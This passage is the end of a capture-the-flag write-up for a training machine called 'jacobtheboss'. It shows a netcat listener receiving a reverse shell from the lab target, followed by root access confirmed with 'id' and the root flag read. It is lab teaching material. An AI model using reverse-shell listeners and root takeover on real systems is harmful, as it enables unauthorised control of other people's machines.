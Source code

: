 And we successfully gained a root interactive shell on the compromised host.
```
m3dsec@local:~/jacobtheboss.thm$ nc -vnlp 9991
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9991
Ncat: Listening on 0.0.0.0:9991
Ncat: Connection from 10.10.9.96.
Ncat: Connection from 10.10.9.96:36850.
[root@jacobtheboss /]# id
uid=0(root) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
[root@jacobtheboss /]# cat /root/root.txt
29a5641e************************
```
<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>

